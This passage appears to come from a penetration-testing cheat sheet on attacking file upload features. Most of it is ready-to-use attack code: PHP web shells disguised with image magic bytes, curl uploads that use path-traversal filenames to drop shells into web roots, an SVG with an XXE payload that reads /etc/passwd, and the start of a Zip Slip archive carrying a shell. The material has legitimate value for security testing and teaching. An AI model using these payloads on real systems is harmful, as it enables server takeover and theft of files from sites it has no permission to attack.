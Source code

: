 ### Magic Byte (File Signature) Bypass

```bash
# Add JPEG magic bytes to PHP shell
echo -e '\xFF\xD8\xFF\xE0\n<?php system($_GET["cmd"]); ?>' > shell.php.jpg

# Add PNG magic bytes
echo -e '\x89PNG\r\n\x1a\n\n<?php system($_GET["cmd"]); ?>' > shell.php.png

# Add GIF magic bytes
echo -e 'GIF89a\n<?php system($_GET["cmd"]); ?>' > shell.php.gif
```

### Path Traversal in File Upload

```bash
# Upload file to arbitrary location
curl -F "file=@shell.php" -F "path=../../../../../../var/www/html/" http://target.com/upload

# Filename with path traversal
curl -F "file=@shell.php;filename=../../../shell.php" http://target.com/upload

# Windows path traversal
curl -F "file=@shell.php;filename=..\..\..\..\inetpub\wwwroot\shell.php" http://target.com/upload
```

### XXE via File Upload

```xml
<!-- malicious.svg -->
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

```bash
# Upload malicious SVG
curl -F "file=@malicious.svg" http://target.com/upload

# Access uploaded file
curl http://target.com/uploads/malicious.svg
# Should display /etc/passwd content
```

### ZIP File Upload Vulnerabilities

**Zip Slip (path traversal):**

```bash
# Create malicious zip with path traversal
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip malicious.zip shell.php
# Modify zip to include path traversal in filename:
# Use zip tool to add ../../../../var/www/html/shell.php
```
